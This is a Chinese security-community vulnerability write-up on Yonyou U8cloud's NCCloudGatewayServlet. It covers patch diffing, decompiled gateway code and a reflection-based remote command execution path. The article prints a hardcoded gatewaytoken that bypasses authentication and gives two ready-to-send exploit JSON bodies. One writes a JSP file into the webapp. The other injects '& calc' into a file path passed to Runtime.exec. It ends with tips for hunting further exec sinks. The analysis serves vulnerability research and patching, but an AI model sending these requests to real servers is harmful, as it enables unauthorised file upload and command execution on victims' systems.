# U8cloud 所有版本 NCCloudGatewayServlet 远程命令执行和任意文件上传（基于该漏洞的变种）-先知社区

> **来源**: https://xz.aliyun.com/news/19048  
> **文章ID**: 19048

---

# 前言

2025-09-24 用友又又又发布了一个漏洞 关于U8cloud所有版本NCCloudGatewayServlet接口存在命令执行漏洞的安全公告 这次又是全版本的漏洞

但是，我觉得这也可以是文件上传漏洞，往下看吧。

<https://security.yonyou.com/#/noticeInfo?id=736>



来来来现热乎的，我们先去分析一波看，官方说的升级补丁升级补丁<U8CLOUD系统NCCloudGatewayServlet接口命令执行漏洞的安全补丁>

所以应该补丁是针对NCCloudGatewayServlet 来进行修复的

# 1、 U8 Cloud 整体架构

### 分层结构

前端层->网关层->应用层->组件容器层->数据层

我们这次分析的即是网关层，所有非静态资源的请求（不走静态 Servlet 的情况），都会被转发到网关层的核心入口 `NCCloudGatewayServlet` 再去通过服务名 方法名 参数名 去动态调用所需要的方法。

### 网关层设计初衷

为了统一请求入口，避免前端直接依赖具体业务类。

方便模块扩展，只要在应用层加一个新服务，就能通过网关调用，看这几次的补丁，都是直接对方法进行修改，贴上去就可以，如果没有这样设计，就可能一层一层去改，改方法，改类名。

便于权限校验、日志记录、事务控制都集中做，我们在其中操作的这部分，都有一个日志进行记录了，它在我们每次去调用其他方法的时候都去打印了日志，也包括异常的抛出。

### 业务层寻找

在用友的一系列的安装文件中，每个模块都有一个upm文件，这里面理解的话就是类似于安装包、模块包的描述文件

```
<?xml version="1.0" encoding='gb2312'?>
<module name="nccloud.gateway">
    <public>
        <component name="NCCloudGatewayServlet" remote="false" singleton="false" tx="NONE">
            <implementation>com.yonyou.nccloud.gateway.adaptor.servlet.ServletForGW</implementation>
        </component>
        <component singleton="true" remote="true" tx="CMT" supportAlias="true">
          <interface>com.yonyou.nccloud.gateway.service.ICloudNCService</interface>
          <implementation>com.yonyou.nccloud.gateway.service.impl.CloudNCServiceImpl</implementation>
        </component>
        <component cluster="SP" accessProtected="false" singleton="true" remote="true" tx="CMT" supportAlias="true">
          <interface>com.yonyou.nccloud.gateway.adapter.itf.IConfigurationFileService</interface>
          <implementation>com.yonyou.nccloud.gateway.adapter.impl.ConfigurationFileServiceImpl</implementation>
        </component>
        <component remote="true" singleton="true"  tx="NONE">
            <interface>com.yonyou.nccloud.gateway.adapter.itf.IImportBDFromGatewayToNCService</interface>
            <implementation>com.yonyou.nccloud.gateway.adapter.impl.ImportBDFromGatewayToNCServiceImpl</implementation>
        </component>
    </public>
</module>

```

这里面告诉了，基于哪一个实现的，是否可以远程调用，是否是单例，等等，我们寻找业务层的代码就可以通过这个方法寻找，如果熟悉java的，理解这部分就是beans.xml文件一样

#### 功能模块

modules文件夹内放着各个功能的模块，我们随机点开一个看看



每个模块都有一个根目录，其次就是classes、client（大部分是ui内容）依赖的jar，所以前面很多地方都是通过反射来进行，这些 jar + classes 文件共同组成模块的运行时。目前上图所展示的是HR 公共功能，和人力绩效模块。

### 入口

webapps/u8c\_web/WEB-INF/web.xml 这里是所有的开始的启动，请求都是通过这一部分进行路由分发的，就像我们现在的请求的/service/NCCloudGatewayServlet，都是匹配的是/service/\*\* 进入的，而这部分的入口在InvokerServlet，为什么在这里？



在这里，我们可以清晰的看见，这里进行了全匹配，根据service下的都会走这个接口路径，通过这部分去找对应的服务



### 鉴权

在U8 当中目前使用最多的是token鉴权，三个漏洞修复后的方案，采取的是时间戳的形式



```
在String nctoken = (new Encode()).decode(getProp().getProperty("nccloud.gateway.nctoken")); 
```

在没更新前大部分采取的鉴权方式都是去读取本地文件，都是已经写好的taoken进行鉴权的，所以都比较好绕过。



包括现有的工具类当中，也是采取的是静态的token所以，U8 目前遇见使用genToken基本上使用静态的token可以绕过，当然在下面的利用链寻找中，也可以采取 去寻找使用了genToken的地方，至少这部分的权限问题可以迎刃而解。

# 2、漏洞初步分析

## 1、找 NCCloudGatewayServlet





找到对应文件了先简单过一下，如果你要研究这个漏洞，你要知道这个方法是做什么的具体要干什么，你才知道怎么获得它的poc。

## 2、修复了什么？

通过官网提到，"如项目使用网关，注意打补丁后需重启网关" 加上映射的方法名 **NCCloudGatewayServlet** 有点发现好像是网关的服务。去看一眼修复了什么东西吧？







先从最外层的进行分析，文件里面只修复这两个，证明是从NCCloudGatewayServlet 去调用了它俩 GateWayUtil 是网关的工具 。另外一个还不确定，需要打开看看。有兴趣的小伙伴可以去官网下载补丁，来进行分析



大概是这个样子的，然后我们去网关服务那哪里调用了这个工具



其次还有一个是

### 1、比对修复内容

#### GateWayUtil

第一眼被吸引的是加了一层动态验证，一个带时间戳的签证



还伴随着配套的sign(String str) 和 sign(String str, String secret) 进行签证下发加密

原本的检验只有一层checkGateWayToken



这个方法应该还不是漏洞触发点，但是是权限绕过点。

#### GWWhiteCtrlUtil

现在去看这个方法，这个方法是原本没有的，而后补丁新增的一个类，作为参考可以看官方是为了避免什么情况发生



写了一个单例模式，然后进行权限的检查，黑白名单和sql注入防护，黑白名单里面的参数可能就是我们后面要用到的。

#### NCCloudGatewayServlet

新方法给谁用？那肯定是给NCCloudGatewayServlet，新方法黑白名单



做了一层黑白名单的检验，然后发现有可能是这里有漏洞，其次下面还增加了日志链路追踪（帮助用户进行分析的）

目前流程是访问NCCloudGatewayServlet->ServletForGW->doAction()方法

### 2、漏洞点分析逐步

#### 1、doAction

```
public void doAction(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    try {
        GateWayUtil.checkGateWayToken(request.getHeader("gatewaytoken"));
        this.gson = JSonParserUtils.createGson();
        byte[] byteArray = IOUtils.toByteArray(request.getInputStream());
        if (byteArray == null) {
            throw new BusinessException("未设置调用信息，请重新设置!");
        }

        InputStreamReader inStreamReader = new InputStreamReader(new ByteArrayInputStream(byteArray), "utf-8");
        InvocationInfoProxy.getInstance().setDate(String.valueOf((new UFDate()).getMillis()));
        JsonParser jsonParser = new JsonParser();
        JsonElement ncServiceCallInfo = jsonParser.parse(inStreamReader);
        Object retObj = null;
        if (ncServiceCallInfo != null) {
            JsonObject jsonObj = ncServiceCallInfo.getAsJsonObject();
            JsonPrimitive userCode = jsonObj.getAsJsonPrimitive("user");
            String ucode = "#UAP#";
            if (userCode != null) {
                ucode = userCode.getAsString();
            }

            InvocationInfoProxy.getInstance().setToken(TokenUtil.getInstance().genToken(ucode));
            retObj = this.callNCService(jsonObj);
        }

        if (retObj != null) {
            String retJson = this.gson.toJson(retObj);
            response.setContentType("application/json;");
            response.setCharacterEncoding("utf-8");
            response.getWriter().write(retJson);
        }
    } catch (Throwable var11) {
        Throwable e = var11;
        if (var11 instanceof InvocationTargetException) {
            e = ((InvocationTargetException)var11).getTargetException();
        }

        Logger.error("GW invoke NC service error!", e);
        response.setContentType("application/json;");
        response.setCharacterEncoding("utf-8");
        String msg = "未知异常，请联系管理员";
        if (e != null) {
            msg = e.getMessage() == null ? "未知异常，请联系管理员" : e.getMessage();
        }

        String error = "{"errorcode":"ncerror001","errormessage":"" + msg + "","errorstack":"" + getErrorStackTrace((Throwable)(e == null ? new Exception(msg) : e)) + ""}";
        response.getWriter().write(error);
    }

}
```

首当其冲的是 GateWayUtil.checkGateWayToken(request.getHeader("gatewaytoken"));方法

要去验证一下Gatewaytoken，我们看看它有什么方法可以绕过，这是验证的地方

```
public static void checkGateWayToken(String gatewaytoken) throws Exception {
    String nctoken = (new Encode()).decode(getProp().getProperty("nccloud.gateway.nctoken"));
    if (!StringUtils.equals(gatewaytoken, nctoken)) {
        throw new Exception("您没有请求该服务的权限");
    }
}
```

这是去获取配置文件里面的信息（跟之前的我写的上一篇一样，是写死了的）



所以这部分就自己加密一下然后添加到header头部即可加密后->TJ6RT-3FVCB-DPYP8-XF7QM-96FV3

```
            this.gson = JSonParserUtils.createGson();
            byte[] byteArray = IOUtils.toByteArray(request.getInputStream());
            if (byteArray == null) {
                throw new BusinessException("未设置调用信息，请重新设置!");
            }

            InputStreamReader inStreamReader = new InputStreamReader(new ByteArrayInputStream(byteArray), "utf-8");
            InvocationInfoProxy.getInstance().setDate(String.valueOf((new UFDate()).getMillis()));
            JsonParser jsonParser = new JsonParser();
            JsonElement ncServiceCallInfo = jsonParser.parse(inStreamReader);
```

往下就是进行了Gson的创建和把request 内容存储进行解析

```
Object retObj = null;
if (ncServiceCallInfo != null) {
    JsonObject jsonObj = ncServiceCallInfo.getAsJsonObject();
    JsonPrimitive userCode = jsonObj.getAsJsonPrimitive("user");
    String ucode = "#UAP#";
    if (userCode != null) {
        ucode = userCode.getAsString();
    }

    InvocationInfoProxy.getInstance().setToken(TokenUtil.getInstance().genToken(ucode));
    retObj = this.callNCService(jsonObj);
}

if (retObj != null) {
    String retJson = this.gson.toJson(retObj);
    response.setContentType("application/json;");
    response.setCharacterEncoding("utf-8");
    response.getWriter().write(retJson);
}
```

而后定义了一个obj对象，开始逐步逐步判断

插个题外话：一般情况下U8 这个接口传递的信息是这个格式

```
{
  "serviceName": "org.example.DemoService",
  "methodName": "queryUser",
  "args": [
    {
      "userId": "1001"
    }
  ],
  "token": "xxxx-xxxx-xxxx"
}

```

继续往下

```
if (ncServiceCallInfo != null) {
    JsonObject jsonObj = ncServiceCallInfo.getAsJsonObject();
    JsonPrimitive userCode = jsonObj.getAsJsonPrimitive("user");
    String ucode = "#UAP#";
    if (userCode != null) {
        ucode = userCode.getAsString();
    }

    InvocationInfoProxy.getInstance().setToken(TokenUtil.getInstance().genToken(ucode));
    retObj = this.callNCService(jsonObj);
}
```

从中获取user字段，下面进行判断如果json中有user有值，那就覆盖一下默认的ucode值（默认用户是admin）

然后根据根据传递过来的设置token，就去调用下一个了callNCService方法

#### 2、callNCService

```
 Logger.info("NC business processing...");
        JsonPrimitive accountCode = jsonObj.getAsJsonPrimitive("accountCode");
        if (accountCode != null) {
            this.initDataSource(accountCode.getAsString());
        }

        JsonPrimitive groupCode = jsonObj.getAsJsonPrimitive("groupCode");
        if (groupCode != null) {
            JsonPrimitive userCode = jsonObj.getAsJsonPrimitive("user");
            this.initUserContext(groupCode.getAsString(), userCode.getAsString());
        }

        this.initBizDateTime();
        JsonObject serviceInfo = jsonObj.getAsJsonObject("serviceInfo");
        String serviceClassName = serviceInfo.getAsJsonPrimitive("serviceClassName").getAsString();
        String methodName = serviceInfo.getAsJsonPrimitive("serviceMethodName").getAsString();
        JsonArray jsonArgInfoArray = serviceInfo.getAsJsonArray("serviceMethodArgInfo");
        Object[] argValues = null;
        Class<?>[] argTypes = null;
        int argCount = 0;
        Object jsonArgInfo;
```

开始去拿参数，accountCode、groupCode、user、serviceInfo中的{serviceClassName、serviceMethodName、serviceMethodArgInfo}

这边看起来就很可疑了已经，这三个，有点熟悉，反序列化的时候的好像也有这三个参数

下面的内容有点多，就截图点我们用得到的吧，详细可以去自己打开分析一下



通过这边，我们知道了我们构造的serviceMethodArgInfo里的结构大致上应该是

```
"serviceMethodArgInfo":[
    {
    "argType":{
        
    },
    "argValue":{
        
    },
    "agg":ture/false
    "isArray":ture/false
    "isPrimitive":ture/false
    ,
    },
    {
    "argType":{
        
    },
    "argValue":{
        
    },
    "agg":ture/false
    "isArray":ture/false
    "isPrimitive":ture/false
    ,
    }
    ..
    ..
    ..
    ..
]
```

然后我们看看下面三个参数有什么用

```
if (isAgg) {
    jsonArgTypeBody = jsonArgTypeObj.getAsJsonPrimitive("agg");
    if (jsonArgTypeBody != null) {
        argTypeClassName = jsonArgTypeBody.getAsString();
        if (StringUtils.isEmpty(argTypeClassName)) {
            throw new BusinessException("聚合VO类名为空，请设置聚合VO类名!");
        }

        argTypes[argIndex] = Class.forName(argTypeClassName);
        if (argTypes[argIndex] != null) {
            argValues[argIndex] = this.parseAggVO(jsonArgTypeObj, jsonArgValueObj, argTypes[argIndex]);
        }
    }
} else {
    Class argtype;
    JsonElement jsonElement;
    JsonArray jsonArray;
    ArrayList jsonArrayList;
    Iterator i$;
    JsonElement jsonEle;
    JsonObject jsonObject;
    Class argclazz;
    JsonPrimitive tokenType;
    String tokenTypeClassName;
    String fieldStr;
    if (isArray) {
        jsonArgTypeBody = jsonArgTypeObj.getAsJsonPrimitive("body");
        if (jsonArgTypeBody != null) {
            argTypeClassName = jsonArgTypeBody.getAsString();
            if (StringUtils.isEmpty(argTypeClassName)) {
                throw new BusinessException("参数类型设置的类名为空，请设置参数类型类名!");
            }

            argtype = Class.forName(argTypeClassName);
            if (isPrimitive) {
                argtype = GWUtil.getPrimitiveType(argtype, isPrimitive);
            }

            if (argtype != null) {
                jsonElement = jsonArgValueObj.get("body");
                if (jsonElement instanceof JsonArray) {
                    jsonArray = (JsonArray)jsonElement;
                    jsonArrayList = new ArrayList();
                    i$ = jsonArray.iterator();

                    while(i$.hasNext()) {
                        jsonEle = (JsonElement)i$.next();
                        if (jsonEle instanceof JsonPrimitive) {
                            jsonArrayList.add(ConvertUtils.convert(((JsonPrimitive)jsonEle).getAsString(), argtype));
                        } else if (jsonEle instanceof JsonObject) {
                            jsonObject = (JsonObject)jsonEle;
                            argclazz = Arg.class;
                            tokenType = jsonArgTypeObj.getAsJsonPrimitive("token");
                            if (tokenType != null) {
                                tokenTypeClassName = tokenType.getAsString();
                                if (!StringUtils.isEmpty(argTypeClassName)) {
                                    argclazz = Class.forName(tokenTypeClassName);
                                }
                            }

                            jsonArrayList.add(JSonParserUtils.parseJSonToPOJO(jsonObject, argclazz));
                        }
                    }

                    argTypes[argIndex] = GWUtil.newInstance(argtype, jsonArrayList.size(), isPrimitive).getClass();
                    argValues[argIndex] = GWUtil.convertToVOArray(argtype, jsonArrayList, isPrimitive);
                } else if (jsonElement instanceof JsonPrimitive) {
                    fieldStr = jsonElement.getAsString();
                    if (!StringUtils.isEmpty(fieldStr)) {
                        argValues[argIndex] = ConvertUtils.convert(fieldStr, argTypes[argIndex]);
                    }
                }
            }
        }
    } else {
        jsonArgTypeBody = jsonArgTypeObj.getAsJsonPrimitive("body");
        if (jsonArgTypeBody != null) {
            argTypeClassName = jsonArgTypeBody.getAsString();
            if (StringUtils.isEmpty(argTypeClassName)) {
                throw new BusinessException("参数类型设置的类名为空，请设置参数类型类名!");
            }

            argtype = Class.forName(argTypeClassName);
            if (isPrimitive) {
                argtype = GWUtil.getPrimitiveType(argtype, isPrimitive);
            }

            argTypes[argIndex] = argtype;
            if (argTypes[argIndex] != null) {
                jsonElement = jsonArgValueObj.get("body");
                if (jsonElement instanceof JsonObject) {
                    argValues[argIndex] = JSonParserUtils.parseJSonToPOJO((JsonObject)jsonElement, argTypes[argIndex]);
                } else if (jsonElement instanceof JsonArray) {
                    jsonArray = (JsonArray)jsonElement;
                    jsonArrayList = new ArrayList();
                    i$ = jsonArray.iterator();

                    while(i$.hasNext()) {
                        jsonEle = (JsonElement)i$.next();
                        if (jsonEle instanceof JsonPrimitive) {
                            jsonArrayList.add(ConvertUtils.convert(((JsonPrimitive)jsonEle).getAsString(), argTypes[argIndex]));
                        } else if (jsonEle instanceof JsonObject) {
                            jsonObject = (JsonObject)jsonEle;
                            argclazz = Arg.class;
                            tokenType = jsonArgTypeObj.getAsJsonPrimitive("token");
                            if (tokenType != null) {
                                tokenTypeClassName = tokenType.getAsString();
                                if (!StringUtils.isEmpty(argTypeClassName)) {
                                    argclazz = Class.forName(tokenTypeClassName);
                                }
                            }

                            jsonArrayList.add(JSonParserUtils.parseJSonToPOJO(jsonObject, argclazz));
                        }
                    }

                    argValues[argIndex] = jsonArrayList;
                } else if (jsonElement instanceof JsonPrimitive) {
                    fieldStr = jsonElement.getAsString();
                    if (!StringUtils.isEmpty(fieldStr)) {
                        argValues[argIndex] = ConvertUtils.convert(fieldStr, argTypes[argIndex]);
                    }
                }
            }
        }
    }
}
```

为true的情况下是获取数据库那边的增删查改的一个java对象，它是“一个主对象 + 多个子对象集合”的组合体->这个东西我也不明确，但从理解是来说应该是对多个表的一个组合式

因为前面有循环，所以我们可以构造一个列表形式的json

isisAgg == false 判断是否是聚合 VO

isArray == false 判断是否是列表数组

isPrimitive == false 是否是基本类型

当isAgg 为false的时候，isArray为true的时候

会去获取读取数组元素类型 body参数，然后通过`Class.forName` 去获取对象，如果是基本类型，调用 `GWUtil.getPrimitiveType` 转成原生类型，此时argtype就是每个元素的java类型，最后生成java数组或者是VO数组

```
 argTypes[argIndex] = GWUtil.newInstance(argtype, jsonArrayList.size(), isPrimitive).getClass();
    argValues[argIndex] = GWUtil.convertToVOArray(argtype, jsonArrayList, isPrimitive);
```

但如果当isAgg 为false的时候，isArray为false的时候

```
else {
    jsonArgTypeBody = jsonArgTypeObj.getAsJsonPrimitive("body");
    if (jsonArgTypeBody != null) {
        argTypeClassName = jsonArgTypeBody.getAsString();
        if (StringUtils.isEmpty(argTypeClassName)) {
            throw new BusinessException("参数类型设置的类名为空，请设置参数类型类名!");
        }

        argtype = Class.forName(argTypeClassName);
        if (isPrimitive) {
            argtype = GWUtil.getPrimitiveType(argtype, isPrimitive);
        }

        argTypes[argIndex] = argtype;
        if (argTypes[argIndex] != null) {
            jsonElement = jsonArgValueObj.get("body");
            if (jsonElement instanceof JsonObject) {
                argValues[argIndex] = JSonParserUtils.parseJSonToPOJO((JsonObject)jsonElement, argTypes[argIndex]);
            } else if (jsonElement instanceof JsonArray) {
                jsonArray = (JsonArray)jsonElement;
                jsonArrayList = new ArrayList();
                i$ = jsonArray.iterator();

                while(i$.hasNext()) {
                    jsonEle = (JsonElement)i$.next();
                    if (jsonEle instanceof JsonPrimitive) {
                        jsonArrayList.add(ConvertUtils.convert(((JsonPrimitive)jsonEle).getAsString(), argTypes[argIndex]));
                    } else if (jsonEle instanceof JsonObject) {
                        jsonObject = (JsonObject)jsonEle;
                        argclazz = Arg.class;
                        tokenType = jsonArgTypeObj.getAsJsonPrimitive("token");
                        if (tokenType != null) {
                            tokenTypeClassName = tokenType.getAsString();
                            if (!StringUtils.isEmpty(argTypeClassName)) {
                                argclazz = Class.forName(tokenTypeClassName);
                            }
                        }

                        jsonArrayList.add(JSonParserUtils.parseJSonToPOJO(jsonObject, argclazz));
                    }
                }

                argValues[argIndex] = jsonArrayList;
            } else if (jsonElement instanceof JsonPrimitive) {
                fieldStr = jsonElement.getAsString();
                if (!StringUtils.isEmpty(fieldStr)) {
                    argValues[argIndex] = ConvertUtils.convert(fieldStr, argTypes[argIndex]);
                }
            }
        }
    }
}
```

一样的是读取body部分，加载对象，转成原生类型，放入argTypes数组当中，但！

最后是通过

```
if (jsonElement instanceof JsonObject) {
    argValues[argIndex] = JSonParserUtils.parseJSonToPOJO((JsonObject)jsonElement, argTypes[argIndex]);
}
```

把 JSON 对象转换成 Java POJO，也就是传统的 学生、老师 这类对象

最后解析成argValues=["","",""]的形式

```
if (this.sqlwhiteenble && "nc.itf.uap.IUAPQueryBS".equalsIgnoreCase(serviceClassName)) {
            String sql = "select * from gw_tableview";
            String querysql = (String)argValues[0];

            try {
                List<Map<String, Object>> resultMap = (List)(new BaseDAO()).executeQuery(sql, new MapListProcessor());
                if (resultMap.isEmpty()) {
                    Logger.error("目前没有查【" + querysql + "】视图权限");
                    throw new BusinessException("目前没查询【" + querysql + "】视图权限");
                }

                boolean hasright = false;
                String tablename = "";
                Iterator i$ = resultMap.iterator();

                while(i$.hasNext()) {
                    Map<String, Object> row = (Map)i$.next();
                    String sqlview = (String)row.get("sqlview");
                    sqlview = sqlview.replaceAll("@lastupdatetime", "");
                    if (querysql.toLowerCase().indexOf(sqlview.toLowerCase()) > -1) {
                        hasright = true;
                        tablename = (String)row.get("viewname");
                        break;
                    }
                }

                if (!hasright) {
                    Logger.error("目前没有查【" + querysql + "】视图权限");
                    throw new BusinessException("目前没查询【" + querysql + "】视图权限");
                }
            } catch (Exception var34) {
                Logger.error("目前没有查【" + querysql + "】视图权限", var34);
                throw new BusinessException("目前查询【" + querysql + "】视图权限异常：" + var34.getMessage());
            }
        }

        Object ncService = NCLocator.getInstance().lookup(serviceClassName);
        Logger.debug("servicename:" + serviceClassName + ";method:" + methodName);
        boolean success = false;
        jsonArgInfo = null;

        try {
            jsonArgInfo = MethodUtils.invokeMethod(ncService, methodName, argValues, argTypes);
            success = true;
            Logger.info("NC business process end...");
            Object retPojo = this.convertNCVOToPojo(jsonArgInfo);
            return retPojo;
        } catch (NoSuchMethodException var32) {
            Method[] methods = ncService.getClass().getMethods();
            int i = 0;

            for(int size = methods.length; i < size; ++i) {
                if (methods[i].getName().equals(methodName)) {
                    Class<?>[] methodsParams = methods[i].getParameterTypes();
                    int methodParamSize = methodsParams.length;
                    if (methodParamSize == argCount) {
                        Method method = MethodUtils.getAccessibleMethod(methods[i]);
                        method.invoke(ncService, argValues);
                        success = true;
                        break;
                    }
                }
            }

            Logger.error("初次调用没有获取到对应方法，继续查询所有方法，找到方法参数长度相同的进行调用", var32);
            throw new BusinessException("NoSuchMethodException, check methodName please. -- UAP servicename is {" + serviceClassName + "},but methodName {" + methodName + "} not be found.Exception:" + getErrorStackTrace(var32));
        } catch (Throwable var33) {
            Logger.error(var33);
            throw var33;
        }
```

那一大段sql跟我们本次没什么很大关系，我们直接看下面，获取到我们的开局传递进来的serviceClassName后

```
lookup:99, AbstractContext (nc.bs.framework.server)
lookup:20, ServerNCLocator (nc.bs.framework.server)
callNCService:351, ServletForGW2

在这里地方后会通过这个链去
                        meta = this.findComponentMeta(name);
找对应的组件如果找不到就会抛出异常
```

```
        Object ncService = NCLocator.getInstance().lookup(serviceClassName);
```

就会创建一个基于我们传递进来的ClassName的Object对象

所以这部分是serviceClassName创建的关键位置

```
jsonArgInfo = MethodUtils.invokeMethod(ncService, methodName, argValues, argTypes);
```

这边又去调用方法

`ncService` → 服务对象

`methodName` → 方法名

`argValues` → 参数值数组

`argTypes` → 参数类型数组

传入了刚刚我们几个分析的数据

调用结束后也就造成了远程命令执行，现在我们应该想用哪些service可以造成？

# 3、漏洞利用链以及分析

##### 1、IPFxxFileService（测试出来的文件上传）

细节我就不多说参考<https://xz.aliyun.com/news/18996> 昨天我发布的这篇

直接进行构造，先理清前面需要的参数

账套默认名称是：U8Cloud

groupCode 随便

```
Gatewaytoken: TJ6RT-3FVCB-DPYP8-XF7QM-96FV3

        {
        "accountCode": "U8cloud",
        "groupCode": "11111",
        "user": "admin",
        "serviceInfo": {
            "serviceClassName": "nc.itf.uap.pfxx.IPFxxFileService",
            "serviceMethodName": "writeDocToXMLFile",
            "serviceMethodArgInfo": [
                {
                    "argType": {
                        "body": "[B"
                    },
                    "argValue": {
                    "body": "[60, 37, 64, 32, 112, 97, 103, 101, 32, 99, 111, 110, 116, 101, 110, 116, 84, 121, 112, 101, 61, 34, 116, 101, 120, 116, 47, 112, 108, 97, 105, 110, 59, 32, 99, 104, 97, 114, 115, 101, 116, 61, 85, 84, 70, 45, 56, 34, 32, 37, 62, 13, 10, 60, 37, 13, 10, 111, 117, 116, 46, 112, 114, 105, 110, 116, 40, 34, 72, 101, 108, 108, 111, 32, 89, 89, 89, 34, 41, 59, 13, 10, 83, 116, 114, 105, 110, 103, 32, 112, 97, 116, 104, 32, 61, 32, 97, 112, 112, 108, 105, 99, 97, 116, 105, 111, 110, 46, 103, 101, 116, 82, 101, 97, 108, 80, 97, 116, 104, 40, 114, 101, 113, 117, 101, 115, 116, 46, 103, 101, 116, 83, 101, 114, 118, 108, 101, 116, 80, 97, 116, 104, 40, 41, 41, 59, 13, 10, 110, 101, 119, 32, 106, 97, 118, 97, 46, 105, 111, 46, 70, 105, 108, 101, 40, 112, 97, 116, 104, 41, 46, 100, 101, 108, 101, 116, 101, 40, 41, 59, 13, 10, 37, 62, 13, 10]"
                },
                    "agg": false,
                    "isArray": false,
                    "isPrimitive": true
                },
                {
                    "argType": {
                        "body": "java.lang.String"
                    },
                    "argValue": {
                        "body": "webapps/u8c_web/NCC123.jsp"
                    },
                    "agg": false,
                    "isArray": false,
                    "isPrimitive": true
                      }
                  ]
              }
          }
```

目前打开是个无危害的jsp界面，访问一次即刻删除。







##### 2、ActionInvoke(官方的命令执行)

<https://security.yonyou.com/#/noticeInfo?id=349>

23年的一个链路，当时年幼，没去分析，现在来看看，映射的是这边

```
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package com.ufida.zior.console;

import com.ufida.iufo.pub.tools.AppDebug;
import nc.bs.logging.Logger;

public class ActionInvokeService implements IActionInvokeService {
    public ActionInvokeService() {
    }

    public Object exec(String actionName, String methodName, Object paramter) throws Exception {
        Logger.init("iufo");
        AppDebug.debug("ActionInvoke: " + actionName + "." + methodName + "()");
        return ActionExecutor.exec(actionName, methodName, paramter);
    }
}

```

这个很明显，就是官方所说的命令执行了，所以我们也可以简单分析一下

```
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package com.ufida.zior.console;

import java.lang.reflect.Method;
import java.util.Map;
import java.util.concurrent.ConcurrentHashMap;

final class ActionExecutor {
    private static final Map<String, Method> map_method = new ConcurrentHashMap();

    ActionExecutor() {
    }

    static Object exec(String actionName, String methodName, Object paramter) throws Exception {
        if (actionName != null && methodName != null) {
            Object action = Class.forName(actionName).newInstance();
            String key = actionName + ":" + methodName;
            Method m = (Method)map_method.get(key);
            Class result;
            if (m == null) {
                result = action.getClass();

                try {
                    m = result.getMethod(methodName, Object.class);
                } catch (NoSuchMethodException var13) {
                    Method[] mthds = result.getMethods();
                    Method[] arr$ = mthds;
                    int len$ = mthds.length;

                    for(int i$ = 0; i$ < len$; ++i$) {
                        Method mthd = arr$[i$];
                        if (methodName.equals(mthd.getName())) {
                            m = mthd;
                            break;
                        }
                    }
                }

                if (m != null) {
                    map_method.put(key, m);
                }
            }

            if (m == null) {
                throw new IllegalArgumentException("Mthod " + methodName + " not exists.");
            } else {
                result = null;
                Class<? extends Object>[] types = m.getParameterTypes();
                Object result;
                if (types != null && types.length >= 1) {
                    if (types.length == 1) {
                        if (paramter != null && paramter.getClass().isArray()) {
                            result = m.invoke(action, paramter);
                        } else {
                            result = m.invoke(action, paramter);
                        }
                    } else {
                        result = m.invoke(action, (Object[])((Object[])paramter));
                    }
                } else {
                    result = m.invoke(action);
                }

                return result;
            }
        } else {
            throw new IllegalArgumentException();
        }
    }
}

```

先是创建类名，然后选择调用的方法名，方法参数，创建实例...又是一个反射了是吧....我们可以开始套娃，这个地方套娃上面的哪个IPFxxFile...一层套一层...

以前是选择的是ProcessFileUtils，因为洞比较老了，所以就不深究为什么是ProcessFileUtils，我们去看看ProcessFileUtils是做什么的？

```
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package nc.bs.pub.util;

import java.io.File;
import java.io.IOException;
import org.apache.commons.lang.SystemUtils;

public class ProcessFileUtils {
    public ProcessFileUtils() {
    }

    public static void openFile(String filePath) throws IOException {
        if (!SystemUtils.IS_OS_MAC && !SystemUtils.IS_OS_MAC_OSX) {
            if (!SystemUtils.IS_OS_LINUX && !SystemUtils.IS_OS_UNIX) {
                Runtime.getRuntime().exec("cmd /c start "" "" + filePath + """);
            } else {
                Runtime.getRuntime().exec("xdg-open " + filePath);
            }
        } else {
            Runtime.getRuntime().exec("open " + filePath);
        }

    }

    public static void openFile(File file) throws IOException {
        openFile(file.getAbsolutePath());
    }

    public static void deleteFile(String filePath) throws IOException {
        if (!SystemUtils.IS_OS_MAC && !SystemUtils.IS_OS_MAC_OSX) {
            Runtime.getRuntime().exec("cmd /c del  /q  "" + filePath + """);
        } else {
            Runtime.getRuntime().exec("rm -fr " + filePath);
        }

    }

    public static void deleteFile(File file) throws IOException {
        deleteFile(file.getAbsolutePath());
    }
}

```

打开文件：  
Windows：执行 cmd /c start "" "filePath" 打开文件。

Linux/Unix：执行 xdg-open filePath。

MacOS：执行 open filePath。

删除文件：

Windows：执行 cmd /c del /q "filePath"。

MacOS/Linux：执行 rm -fr filePath。

仔细发现，好像都可以拼接命令，所以我们就可以在后面拼接命令，选择静态文件，然后后面选择所要执行的命令即可。

```
Gatewaytoken: TJ6RT-3FVCB-DPYP8-XF7QM-96FV3
  
      {
        "accountCode": "U8cloud",
        "groupCode": "123",
        "user": "admin",
        "serviceInfo": {
            "serviceClassName": "com.ufida.zior.console.IActionInvokeService",
            "serviceMethodName": "exec",
            "serviceMethodArgInfo": [
                {
                    "argType": {
                        "body": "java.lang.String"
                    },
                    "argValue": {
                        "body": "nc.bs.pub.util.ProcessFileUtils"
                    },
                    "agg": false,
                    "isArray": false,
                    "isPrimitive": true
                },
                {
                    "argType": {
                        "body": "java.lang.String"
                    },
                    "argValue": {
                        "body": "openFile"
                    },
                    "agg": false,
                    "isArray": false,
                    "isPrimitive": true
                },
                {
                    "argType": {
                        "body": "java.lang.String"
                    },
                    "argValue": {
                        "body": "webapps"& calc"
                    },
                    "agg": false,
                    "isArray": false,
                    "isPrimitive": true
                }
            ]
        }
    }


```





# 4、利用链的寻找

我们可以根据已知漏洞去寻找，也可以找到有执行的service，因为每个实现的类都是基于service来寻找的，不管是哪一个都是继承于Service类型，U8 比较特别，属于全局都在反射，导致审计起来有点麻烦，也不好调试，比较暴力的方式使用命令的方式来查找敏感点，再通过敏感点往上找，哪些使用了它

```
for /r %i in (*.jar) do jar -tf "%i" | find "ActionInvokeService.class" && echo Found in %i && pause


com/ufida/zior/console/ActionInvokeService.class
com/ufida/zior/console/IActionInvokeService.class
Found in D:\xxxx\U8CERP\modules\uap\lib\pubuapcom.jar
```

如果我们是找类，可以通过这个在powshell对对应的模块下进行使用即可，这边就会返回，这是找文件名。

如果是想找代码片段，有几种，第一种是找每个Util的工具类，然后查找文件内容，还有一种就是结合起来全部解压jar包，形成class文件，批量查找

就像Runtime.getRuntime().exec类型代码，存在于工具文件中，或者是File file,根据这类特征可以去寻找利用链

做到这一步了，我们该定位Sinks

```
Runtime.getRuntime().exec
